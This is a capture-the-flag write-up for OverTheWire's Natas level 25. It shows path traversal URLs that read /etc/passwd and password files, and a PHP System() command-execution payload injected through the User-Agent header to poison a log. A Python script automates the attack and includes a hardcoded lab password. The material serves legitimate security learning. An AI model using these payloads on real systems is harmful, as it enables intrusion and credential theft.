# 🕸️Natas Level 25 → Level 26

```
http://natas25.natas.labs.overthewire.org
```
Username: natas25  
Password: (natas25_password)



Go to the source page.





Next, we attempted a path traversal attack; however, it was unsuccessful.
```
http://natas25.natas.labs.overthewire.org/?lang=../../../../../../../etc/passwd
```


We then analyze the ``safeinclude()`` function to understand its behavior.



Next, we refined our **path traversal attack**, which successfully bypassed the restrictions.
```
http://natas25.natas.labs.overthewire.org/?lang=....//....//....//....//....//....//....//etc/passwd
```


We then tried to access the password for natas26, but the effort failed.
```
http://natas25.natas.labs.overthewire.org/?lang=....//....//....//....//....//....//....//etc/natas_webpass/natas26
```


Then, we reviewed the ``safeinclude()`` function again.



In the ``logRequest()`` function, we discovered an interesting path leading to a log file.
```
/var/www/natas/natas25/logs/natas25_cookievalue.log
```


The next step is to try accessing the **log file**.
```
http://natas25.natas.labs.overthewire.org/?lang=....//....//....//....//....//....//....//var/www/natas/natas25/logs/natas25_66ds804rhmqv922bebs70vjck7.log
```


Then, we saw some **User-Agent** information and a PHP warning.



What if we inject something malicious into the **User-Agent** to get our desired result?
```
<?php System("cat /etc/natas_webpass/natas26;"); ?>
```
### 🚀 Some Useful PHP Function


There are many ways to complete this challenge, and here I will demonstrate two of them.
- Method 1: 🔧 Web Security Testing Tools
- Method 2: 🐍 Python Script

### Method 1: 🔧 Web Security Testing Tools

Start by capturing the **request** packet, then send it to **Replay**.



Replace the **User-Agent** value with our payload. Then Click **Send**
```
<?php System("echo hello; cat /etc/natas_webpass/natas26; echo hello;"); ?>
```


We should now be able to view the flag in the HTTP response.



Then, we refreshed the page and saw the password for natas26.



### Method 2: 🐍 Python Script

```
import requests
import re


# Credentials for natas25
username = "natas25"
password = "ckELKUWZUfpOv6uxS6M7lXBpBssJZ4Ws"

# Target URL
url = "http://natas25.natas.labs.overthewire.org"

# Start a session to persist cookies and headers across requests
session = requests.Session()

# send POST request
response = session.post(
    url,
    auth=(username, password)
)

# extract cookie value from the page
cookievalue = session.cookies["PHPSESSID"]
# path to the system log file
log_path = f"?lang=....//....//....//....//....//....//....//var/www/natas/natas25/logs/natas25_{cookievalue}.log"
# full url to the system log file
log_url = f"http://natas25.natas.labs.overthewire.org/{log_path}"
# PHP payload to inject into User-Agent
payload = "<?php System(\"echo natas26; cat /etc/natas_webpass/natas26; echo natas26;\"); ?>"
# Our malicious User-Agent
payload_header = {"User-Agent": payload}

# send GET request with our payloads
get_response = session.get(
    log_url,
    headers = payload_header,
    auth=(username, password)
)

# print the response
print(get_response.text)

```

Before executing, make sure the file has the proper permissions and then run it.



Finally, the password for **natas26** is displayed.



Awesome work! You’ve got the flag needed for the next challenge.


